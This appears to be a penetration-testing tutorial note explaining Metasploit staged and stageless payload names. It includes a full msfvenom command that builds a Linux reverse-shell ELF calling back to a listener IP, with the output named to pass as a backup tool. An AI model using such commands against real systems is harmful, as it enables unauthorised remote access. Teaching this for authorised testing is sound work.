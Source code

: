 **Staged Payloads:**
- Each `/` represents a stage
- Example: `linux/x86/shell/reverse_tcp`
  - `/shell/` = stage to send
  - `/reverse_tcp` = another stage

**Stageless Payloads:**
- All components in single function name
- Example: `linux/zarch/meterpreter_reverse_tcp`
  - `meterpreter_reverse_tcp` = complete payload

#### Comparison Examples

| Staged | Stageless |
|--------|-----------|
| `windows/meterpreter/reverse_tcp` | `windows/meterpreter_reverse_tcp` |
| `linux/x86/shell/reverse_tcp` | `linux/x86/shell_reverse_tcp` |
| `windows/shell/bind_tcp` | `windows/shell_bind_tcp` |

### Building Stageless Payloads

#### Linux ELF Payload Example

**Command:**
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

**Output:**
```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```

**Command Breakdown:**

| Component | Description |
|-----------|-------------|
| `msfvenom` | Tool used to create the payload |
| `-p` | Indicates creating a payload |
| `linux/x64/shell_reverse_tcp` | Linux 64-bit stageless reverse shell |
| `LHOST=10.10.14.113` | IP address to connect back to |
| `LPORT=443` | Port to connect back to |
| `-f elf` | Output format (ELF binary) |
| `> createbackup.elf` | Output filename |
